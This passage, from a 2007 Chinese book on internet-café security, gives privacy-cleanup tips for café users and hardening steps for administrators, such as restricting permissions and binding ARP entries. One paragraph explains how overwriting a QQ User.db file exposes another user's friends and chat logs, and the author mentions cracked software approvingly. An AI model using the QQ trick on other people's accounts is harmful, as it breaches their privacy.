这里我们以Word文档为例，如果我们在网吧中用Word编辑了一些文档，那么在Word的“打开”菜单中是会留下这些文档记录的，如图2-3-11。如果我打开的是别人的原创文章的话……这些信息可是不能泄露的哦！不过Office办公软件提供了消除历史记录的选项。仍然以Word为例，选择“工具”菜单中的“选项”，然后转到“常规”选项卡，其中有一个“列出最近所用文件N个”的选项，如图2-3-12。把那个勾取消了就可以了，这时候在Word文档的“打开”菜单中就没有最近打开的文档信息了。即使你再将选项勾选上，以前的打开文档信息也不会显示了，可以放心了。其他Office成员最近打开文档的消除方法和Word基本相同。


- **f. 运行和搜索中的历史信息**

就像一些使用了Cookie的网站一样，Windows中的一些功能可以保存我们在文本框中曾经输入的信息，这样在下次要执行相同或类似操作的时候就不用再次输入了，如图2-3-13。从这两个地方可以获得我们曾经执行过的程序和操作，以及搜索过系统中的什么文件。要想消除这些信息还必须进入注册表。我们来到  
**HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU**，右侧出现的字符串是否就是“运行”中曾经输入过的历史项目呢？如图2-3-14。删除这些字符串值就可以了，重新执行桌面进程Explorer.exe修改生效。然后我们来到  
**HKEY_CURRENT_USER\Software\Microsoft\Search Assistant\ACMru\5603**，这里保留了所有我们搜索过的输入信息，同样删除它们就可以了，如图2-3-15。


- **2.3.3、其它的泄密地方**
  - **a. QQ泄密**

## 五、上网信息安全

首先别说你走之前忘记了关QQ，那你的信息被人看到也是……在QQ的安装目录下有很多以登录的QQ号命名的文件夹，里面保存了特定QQ的信息，比如好友信息和聊天记录，这些可是非常重要的私人信息。其中有一个文件 **User.db**，它保存的就是当前QQ号码的好友信息与好友的聊天记录，每个以QQ号命名的文件夹下都有一个这样的文件。将别的QQ号目录下的User.db文件覆盖你的同名文件，然后重新登录QQ，是不是你的好友信息全变了？并且你可以查看和“好友”的聊天记录……不过这时候你并没有加这些“好友”为真正的好友，这只是表面现象。

图2-3-16 删除QQ客户端的记录

要防止自己的好友以及聊天信息泄露很容易，走之前删除以你QQ号命名的文件夹就可以了，不过QQ本身也提供了清除记录的功能，在QQ的登录界面上点击“设置”，然后在“其它选项”中选择“清除记录”，如图2-3-16。勾选那个“同时删除该账号对应的所有记录文件（包括聊天记录）”，这样的清理才算彻底。当然如果你有聊天记录需要保存的话，这个操作应该在你保存聊天记录之后进行吧！另外如果你接收过好友通过QQ发给你的文件，这个文件会保存在 `C:\Documents and Settings\UserName\My Documents\My QQ Files` 中，走之前不要忘记删除啊！

图2-3-17 剪贴板查看器

- **b. 剪贴板泄密**：剪贴板的功能这里不再赘述，Windows中有一个工具“剪贴簿查看器”可以帮助我们查看剪贴板中的当前信息，在“运行”中输入 **Clipbrd** 就可以运行它了，如图2-3-17。剪贴板里不仅可以保存文字信息，它还可以保存图片。清空剪贴板中的内容很简单，只要点击剪贴簿查看器“编辑”菜单中的“删除”，然后点击“确定”就可以了。
- **c. 不彻底的文件删除**：在网上上完网后都是要删除我们的文件的，一般操作是选中文件，然后点鼠标右键并选择“删除”，或者直接按下Delete键。可这并不是彻底删除，平常的删除只是把文件放入“回收站”里并没有真正删除。要彻底删除文件必须进入回收站执行“清空回收站”，或者在删除文件时直接进行彻底删除，快捷键为 **Shift+Delete**。
- **d. 注册表最后打开键泄密**：注册表编辑器会记忆你对它操作时的最后一个键，每次打开注册表时默认位置就是上次打开的项。如果你在网吧有对注册表进行操作，走之前记得把最后打开的键设置为根键或其它不重要的键，在关闭Regedit之前把子键全部收回即可。

## 2.4、小结

说了这么多，我把自己能想到的都写出来了，还有什么需要注意的地方，希望大家能补充提出来。现在网吧安装了还原卡或者还原类软件的占大多数，所以很多东西不需要手动删除，系统自动还原就OK了。上面说的一些方法还是可以用在一些不还原的驱动器上的。最后告诉大家一个上网吧保护自己的好习惯：上机前重启，上完后关机！

## 3、网管的反击

实际笔者只做过一段时间的网管，说起来根本没有什么资格在这里高谈阔论，不过还是忍不住想要说一些。这里我将简要介绍一些自己能想到的基本的网吧防御措施，这些防范方法大部分是从技术角度出发的，也许有些脱离了现实的一些东西，但还是比较有用的。

### 3.1、Windows 的安全设置

### 3.1.1、做好 Windows 基本防御

所谓Windows的基本安全防御手段，无非就是关闭默认共享，尤其是IPC$；禁用远程枚举用户；对用户不设置弱口令，并且所有客户机的用户口令尽量不同且无规律可循；另外把系统中一些没有用的服务禁用掉，系统补丁即使是手工下载安装也要保持最新状态。做好这些都是为客户的安全着想，这应该是网吧必须考虑的，也能带来更多的客户和收入。

### 3.1.2、设置 Windows 的权限

Windows NT的一大特色就是使用了权限的概念，这样配合它的多用户性质每个用户之间就有了差异，他们中的很多操作可能都无法进行，这是一个很有效的安全防范措施。不过怎么用权限进行安全防范的实例就很少见，这里说的设置Windows的用户权限主要针对的是网吧的客户机，不要安装完操作系统就不管了，因为默认情况下第一个登录系统的用户是管理员！每天有很多不同的人使用这些客户机，管理员权限的操作什么事情不能做呢？个人觉得使用网吧管理软件做限制只解决了表面问题，要从根本上杜绝破坏行为还得从操作系统入手。对于网吧客户机，我想Users用户组的权限就够了，然后管理员可以通过更为细致的权限设置使Users组的成员无法执行那些对网吧破坏极为有利的系统程序以及进行系统级操作，使用Windows的权限限制用户的操作要比网吧管理软件强大许多，越权操作不是那么容易漏掉！

另外在网吧的服务器上，平常登录的时候也不一定要用管理员登录，只要用平时的管理和业务操作够用权限的用户就可以了。这样的话即使对方进入了你的系统，他得到的也是和你一样的权限而无法进行一些系统级的操作，这样又为入侵者设置了一道较难突破的障碍。

### 3.2、软件设置

软件是网吧的有机组成部分，没有了软件的支持网吧是无法存活的，因此软件的安全问题与网吧的整体安全紧密相连。这里我们说的软件具体指的是操作系统外的网吧常用应用软件。

### 3.2.1、还原系统

首先还原系统肯定要安装的，要不网管的工作量就太大了！推荐使用还原卡，硬件产品破解起来要比软件困难许多。如果不愿意在这方面花费的话，那还原类软件就是“不二之选”了，常用的就是还原精灵和冰点还原了，前者网上是有破解版下载的，所以不用担心购买，而后者则是完全免费的。在安全方面冰点做的相对要强于还原精灵，推荐冰点。

### 3.2.2、设置网吧限制

网吧限制还是要有的，不过个人意见设置限制的时候应该考虑到客户的体验，这对网吧的经营也是很有利的。网管们可以根据第一章的组策略安全选项以及描述手工设置适合自身环境的限制。另外限制下载不能从根本上解决问题，来网吧上网的很多客户都是来下载的，比如下载MP3等，限制下载对客户不好，这样会影响网吧生意。建议有条件的网吧配备音乐服务器以及常用软件的下载服务器。

### 3.2.3、安全防护软件

杀毒软件和防火墙还是要安装的，网上又不是没有破解版，这些不仅仅可以减少管理员的工作量（有些病毒的破坏性是很强的），更重要的是它们保护了客户的个人信息不被其他人偷窥，它们能在第一时间对来自病毒、木马和网络上的威胁进行防御和反击，这让客户的个人利益得到了维护（网吧的义务），网管辛辛苦苦做的系统也得到了保护。

### 3.2.4、网吧管理与更新软件

网吧管理软件仍然推荐使用Pubwin，当然Pubwin4就不要用了，网吧的安全直接关系到经济利益，因此花些钱购买专业强大的软件也是值得的（不过貌似很多地方都是公安机关强制安装某款管理软件）。推荐Pubwin 2007，Pubwin EP的安全做得已经比较强了，相信Pubwin 2007在EP的基础上更成熟了许多，不论从安全上还是从性能上。另外如果有技术支持的话，服务器可以考虑使用Linux，这可以挡住很多菜鸟级别的入侵者。至于一些电影和游戏更新程序，虽然对它们的破解以及利用不是很多，不过还是有必要注意的。除了使用大家都比较认可的电影/游戏更新程序外，我们也可以使用一些市面上不流行的同类程序，知道的少、研究的少，“漏洞自然少”，不过不成熟的软件是不能用的，网吧管理软件同样如此。

包括上面说的所有网吧常用的应用程序，管理员应当经常关注它们的安全状况，争取能在第一时间更新软件，尽量保持为最新，这样利用第三方软件漏洞的入侵和破坏行为就没有用武之地了。

### 3.3、网络安全设置

### 3.3.1、如何防止ARP欺骗

ARP欺骗的攻击在网吧中非常肆意，利用ARP欺骗原理的一些病毒和木马也常在网吧现身，那如何来抵御ARP欺骗呢？其实ARP欺骗是建立在ARP缓存的更新基础之上的，只要我们不让ARP缓存更新就可以了。Windows的ARP命令有一个可选项可以将IP地址和MAC地址绑定，这样每台主机的IP地址和MAC地址的对应关系就不会搞乱了，ARP欺骗也就无法实施了。比如我要绑定的IP地址为192.168.0.1，它的MAC地址为AA-AA-AA-AA-AA-AA，打开CMD，在其中输入 `arp -s 192.168.0.1 AA-AA-AA-AA-AA-AA` 就将它的IP地址和MAC地址绑定了，如图3-3-1。

我们查看ARP缓存，其中有一条记录，它的状态不再是我们常见的Dynamic，而是Static，意思为静态的。这时候主机192.168.0.1在本地主机的MAC地址就不会被数据包更新了。因此我们只要在网吧中的每一台客户机上都这样绑定了，那ARP欺骗就无法实施了。

不过Windows上的ARP缓存记录是可以删除的，清空ARP缓存后，你添加的静态IP-MAC对应随即灰飞烟灭，因此这样做防范ARP欺骗还是不很彻底的。如果可以设置交换机的话，我们也可以在交换机上设置静态的IP-MAC对应关系，这样在客户机和交换机上实施了双重绑定，想实施ARP欺骗都很困难了。由于条件原因这里无法演示，支持设置静态ARP缓存的交换机的静态IP-MAC对应设置应该和Windows上的设置类似，应该是使用Telnet远程登录交换机后设置吧！

### 3.3.2、其它

整个网络的核心应该是交换机和路由器（或者网关服务器），它们的安全关系着整个网吧的所有客户机的利益，所以花费财力在这些网络设备上面还是很有必要的，并且好的网络设备运行起来比较稳定，不容易出现网络故障。我想到一个网吧上网的客户如果经常遭遇掉线的话，那这个网吧恐怕是活不了多少时间的。

另外网吧的服务器安全也非常重要，除了经常打系统补丁外，基本的防御措施例如消除弱口令、修改系统的默认配置等，这些都是最起码要做的事情。这些东西都被人说烂了，因此我在这里只不详细讲述了。

最后我们不要忽视了人为因素。前辈凯文·米特尼克提出了“人身防火墙”的概念，试想就算网吧砸下数十万购置专业的路由器和硬件防火墙，而黑客则利用网吧的一个员工获得了进入系统或网络的口令，那就算花再多的钱买再好的设备又有什么用呢？任何坚固的堡垒都是可以从内部被摧毁的！因此我们上面虽然说了那么多系统和网络的安全防范措施，但最终说来物理上的防范还是非常重要和必要的。网吧业主应该加强网吧工作人员对安全的重视力度，最少管理员和技术员要对社会工程学有清醒的认识和防范意识，这样才能很好地从物理角度防止黑客的侵入。加强网吧管理自然也是很重要的，不要以为你做的软件限制可以抵挡一切攻击，网络安全世界里没有绝对。在网吧这种场合里，物理上的管理和监控可以在很大程度上保护网吧的安全。

## THE END

## 后序

终于提起笔写下了这些字，虽然心还没有松懈下来，但我知道离那一天已经不远了。以前总是盼望着这一天的到来，想象着写下这些字时的情景，现在终于梦想成真了一把！《网吧·黑客》这本书经过许许多多断断续续的写作，终于画上了句号，回想这半年竟然发生了那么多事情，弹指间突然变慢了。这其中的辛酸和苦楚自己最清楚，当然也有高兴、哼哼歌的时候了。写这本书花费了我很多的时间和精力，而从开始准备到策划和不断的改进，直到最后完成，除了技术本身外，我学到了更多东西。

这本书由我一个人写作完成，但是它的成就离不开许多人。没有他们我根本不可能完成这本书，正是他们的理解和支持一直鼓励着我坚持写完了这本书。

首先我要谢谢上豆，是他给了我这次锻炼自己的机会，谢谢他对我的理解和信任。在共同商量和策划这本书以及平时的编辑工作中，他教会我很多，这些都是弥足珍贵的精神财富，我受益匪浅；我要感谢秦逸、裴昭、邹中杰和小鱼，这本书的大部分内容都是在他们的笔记本上完成的，没有他们就没有这本书。在不知情的情况下他们仍给予了我理解和支持，这是最令我感激的，一切尽在不言中；我还要谢谢东、宋逸和邹中杰借给我U盘侠，谢谢猫兄、namajm等朋友的技术支持，谢谢萍子哥设计的Cool封面，谢谢排版人员对本书的修改意见，还有为这本书的出版做出努力的所有人，谢谢你们！

最后我要感谢我的家人和朋友们，正是有了他们我才不会感到孤独。我的父母一直支持我做我喜欢做的事情，他们很理解我，没有他们的养育就没有我的成长。

王军

2007年4月15日晚于北京